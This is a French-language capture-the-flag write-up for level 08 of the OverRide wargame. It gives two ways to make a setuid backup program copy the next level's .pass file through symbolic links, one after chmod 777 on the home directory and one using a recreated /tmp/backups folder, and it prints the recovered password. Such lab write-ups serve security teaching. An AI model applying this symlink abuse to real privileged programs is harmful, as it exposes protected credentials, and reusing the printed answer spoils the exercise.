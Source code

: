 # Level 08

## First solution

### Protections

![](Ressources/protections.png)

### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presencde du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Second solution

Au lieu de chmod le home on peut recreer le dossier backups dans /tmp/

Creer un dossier sur lequel on va link le home du level09

Executer le binaire depuis le dossier /tmp/ avec comme parametre le .pass du dossier link sur le home


```
mkdir -p /tmp/backups/link/
ln -s /home/users/level09 /tmp/link
cd /tmp/
~/level08 link/.pass

cat /tmp/backups/link/.pass
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
